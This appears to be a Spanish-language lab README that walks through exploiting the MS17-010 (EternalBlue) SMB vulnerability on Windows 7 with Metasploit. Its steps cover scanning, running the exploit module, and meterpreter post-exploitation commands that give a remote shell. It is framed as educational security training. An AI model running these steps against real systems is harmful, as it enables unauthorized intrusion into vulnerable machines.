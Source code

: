 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detectar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
Search ms17_10
```
![alt text](./lab01-images/lab01-fig2-msf-console.PNG "Metasploit framework")
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
**Exploiting**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST “Dirección IP del host windows 7 64bits” 
```
```
exploit 
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
 
**Post Exploitation**
```bash
Sysinfo
```
![alt text](./lab01-images/lab01-fig5-msf-console.PNG "Metasploit framework")
```bash
Getuid
```
![alt text](./lab01-images/lab01-fig6-msf-console.PNG "Metasploit framework")
```Bash
Shell
```
![alt text](./lab01-images/lab01-fig7-msf-console.PNG "Metasploit framework")

**Enlace para mayor información**

```
https://www.metasploit.com/
```
```
https://www.offensive-security.com/
metasploit-unleashed/msfconsole-commands/
```
```
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
```
